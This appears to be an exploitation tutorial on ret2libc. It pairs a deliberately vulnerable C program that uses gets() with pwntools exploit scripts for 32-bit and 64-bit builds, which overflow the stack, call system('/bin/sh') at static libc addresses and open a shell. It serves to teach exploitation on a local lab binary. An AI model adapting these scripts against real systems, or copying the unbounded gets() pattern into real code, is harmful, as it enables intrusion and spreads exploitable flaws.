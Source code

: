 # Example: ret2libc Exploit Without ASLR
## Vulnerable Source Code
````c
#include <stdio.h>

void vuln() {
    char buffer[64];

    puts("Overflow me");
    gets(buffer);
}

int main() {
    vuln();
}
````

## Explanation
This program is vulnerable to a buffer overflow because the gets function does not perform bounds checking on user input. This allows an attacker to:

Overwrite the return address on the stack.
Redirect execution to the system function in the libc library to execute arbitrary commands, such as spawning a shell.
Since Address Space Layout Randomization (ASLR) is disabled, the memory addresses of libc functions remain static, making it easier to exploit the vulnerability.

### 32-Bit Exploit
This exploit targets the 32-bit version of the vulnerable program.

````python

# 32-bit Exploit for ret2libc
from pwn import *

elf = context.binary = ELF('./vuln-32')  # Load the binary
p = process()                            # Start the vulnerable program

libc = elf.libc                          # Retrieve the libc linked to the program
libc.address = 0xf7dc2000                # Base address of libc (static due to no ASLR)

system = libc.sym['system']              # Address of the 'system' function
binsh = next(libc.search(b'/bin/sh'))    # Address of the "/bin/sh" string

# Construct the payload
payload = b'A' * 76                      # Padding to overflow the buffer and reach the return address
payload += p32(system)                   # Overwrite return address with the address of 'system'
payload += p32(0x0)                      # Fake return address (not important once we get the shell)
payload += p32(binsh)                    # Argument to 'system': pointer to "/bin/sh"

p.clean()                                # Clean any pending output
p.sendline(payload)                      # Send the exploit payload
p.interactive()    
````
                      # Interact with the spawned shell
### Key Points
- Padding: The buffer is 64 bytes, but an additional 12 bytes (4 bytes for saved EBP + 8 bytes for alignment) are required to reach the return address.
- Static Addressing: ASLR is disabled, so the base address of libc (0xf7dc2000) is known.

### 64-Bit Exploit
This exploit targets the 64-bit version of the vulnerable program.

```python
# 64-bit Exploit for ret2libc
from pwn import *

p = process('./vuln-64')                # Start the vulnerable program

libc_base = 0x7ffff7de5000              # Base address of libc (static due to no ASLR)
system = libc_base + 0x48e20            # Offset of 'system' function from libc base
binsh = libc_base + 0x18a143            # Offset of "/bin/sh" string from libc base

POP_RDI = 0x4011cb                      # Address of 'pop rdi; ret' gadget in the binary

# Construct the payload
payload = b'A' * 72                     # Padding to overflow the buffer and reach the return address
payload += p64(POP_RDI)                 # Gadget to set up the 'rdi' register with the address of "/bin/sh"
payload += p64(binsh)                   # Address of "/bin/sh"
payload += p64(system)                  # Address of the 'system' function
payload += p64(0x0)                     # Fake return address (not important once we get the shell)

p.clean()                               # Clean any pending output
p.sendline(payload)                     # Send the exploit payload
p.interactive()   
```      
# Interact with the spawned shell
Key Points
- Padding: The buffer is 64 bytes, but an additional 8 bytes for saved RBP are required to reach the return address.
- Gadget: A pop `rdi;` ret gadget is used to load the address of `/bin/sh` into the rdi register, which is the first argument for system on x86-64 systems.